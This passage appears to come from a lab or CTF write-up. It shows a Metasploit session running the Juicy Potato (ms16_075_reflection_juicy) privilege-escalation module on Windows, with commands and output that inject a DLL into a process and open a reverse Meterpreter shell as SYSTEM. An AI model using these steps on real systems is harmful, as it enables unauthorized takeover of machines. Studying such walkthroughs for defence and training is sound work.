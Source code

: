 ````
msf5 exploit(multi/handler) > use 1
msf5 exploit(windows/local/ms16_075_reflection_juicy) > 
msf5 exploit(windows/local/ms16_075_reflection_juicy) > show options

Module options (exploit/windows/local/ms16_075_reflection_juicy):

   Name     Current Setting                         Required  Description
   ----     ---------------                         --------  -----------
   CLSID    {4991d34b-80a1-4291-83b6-3328366b9097}  yes       Set CLSID value of the DCOM to trigger
   SESSION                                          yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/local/ms16_075_reflection_juicy) > 
````

It assigned a default CLSID, which we can change if we need to: https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md

Then we set our session and go:
````
msf5 exploit(windows/local/ms16_075_reflection_juicy) > set session 1
session => 1
msf5 exploit(windows/local/ms16_075_reflection_juicy) > run

[*] Started reverse TCP handler on 10.22.6.122:4444 
[*] Launching notepad to host the exploit...
[+] Process 1080 launched.
[*] Reflectively injecting the exploit DLL into 1080...
[*] Injecting exploit into 1080...
[*] Exploit injected. Injecting exploit configuration into 1080...
[*] Configuration injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (180291 bytes) to 10.22.6.43
[*] Meterpreter session 2 opened (10.22.6.122:4444 -> 10.22.6.43:50585) at 2020-01-09 14:10:13 -0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
````
